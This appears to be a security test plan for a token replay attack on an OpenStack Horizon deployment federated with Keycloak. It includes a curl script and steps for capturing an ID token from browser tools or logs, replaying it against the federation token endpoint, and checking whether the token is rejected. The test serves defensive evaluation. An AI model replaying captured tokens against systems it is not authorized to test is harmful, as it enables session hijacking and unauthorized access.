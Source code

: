# Token Replay Attack Simulation
# Uses a previously captured ID token to attempt reuse

TOKEN="eyJhbGciOiJSUzI1NiIsInR5cCI..."  # Replace with a real token from Keycloak
OS_AUTH_URL="https://<YOUR_HORIZON_IP>:5000/v3"

echo "[*] Replaying captured token..."
```bash
curl -k -X POST $OS_AUTH_URL/OS-FEDERATION/token \
  -H "Content-Type: application/json" \
  -d '{
    "auth": {
      "identity": {
        "methods": ["token"],
        "token": {
          "id": "'"$TOKEN"'"
        }
      }
    }
  }'
```
# Token Replay Attack – Test Steps

## Objective
To evaluate whether the system accepts a previously used token, simulating a token replay attack.

## Tools Required
- curl
- Access to a valid ID token (captured from browser or logs)

## Step-by-Step Instructions

1. **Log in to Horizon via Keycloak** and capture a valid token using browser dev tools or logs.
   - Look for the `Authorization: Bearer <ID_TOKEN>` header.

2. **Save the token** and try reusing it via:
   ```bash
   curl -k -X POST https://<VIP>:5000/v3/OS-FEDERATION/token \
   -H "Content-Type: application/json" \
   -d '{
     "auth": {
       "identity": {
         "methods": ["token"],
         "token": {
           "id": "<REPLAYED_TOKEN>"
         }
       }
     }
   }'
   ```

   Repeat the request multiple times within the token validity window.

Optionally:

- Wait for token expiry.

- Replay again and check if it still works.


---

# Expected Outcome – Token Replay

✅ System should **only accept a valid token once** or for a limited time (short-lived TTL).

✅ If replayed multiple times:
- Only the first usage should succeed
- Others should be denied or rate-limited

✅ Token should be bound to client/IP/session if `token binding` is configured.

❌ If replaying an old token consistently results in successful authentication, the system is vulnerable to:
- Session hijacking
- Authorization bypass

